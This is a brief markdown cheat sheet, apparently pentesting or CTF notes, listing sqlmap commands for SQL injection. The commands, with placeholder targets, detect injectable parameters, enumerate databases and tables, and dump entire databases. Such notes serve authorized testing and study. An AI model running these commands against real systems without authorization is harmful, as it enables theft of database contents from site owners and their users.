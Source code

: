 # SQL Injection

## Links

- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [sqlmap Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- [SocketSQL](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

## First run (no interaction)

```sh
sqlmap --batch -u http://URL/?PARAM=1
```

## Dump all databases

```sh
sqlmap --dump-all --exclude-sysdbs --batch -u http://URL/?PARAM=1
```

## Load request data from file

```sh
sqlmap --dump-all --exclude-sysdbs --batch -r FILE
```

## Select the params

```sh
sqlmap -r FILE -p PARAM1,PARAM2
```

## List all databases

```sh
sqlmap -u http://URL/?PARAM=1 --dbs
```

## List tables from database

```sh
sqlmap -u http://URL/?PARAM=1 -D DATABASE --tables
```

## Dump table

```sh
sqlmap -u http://URL/?PARAM=1 -D DATABASE -T TABLE --dump
```
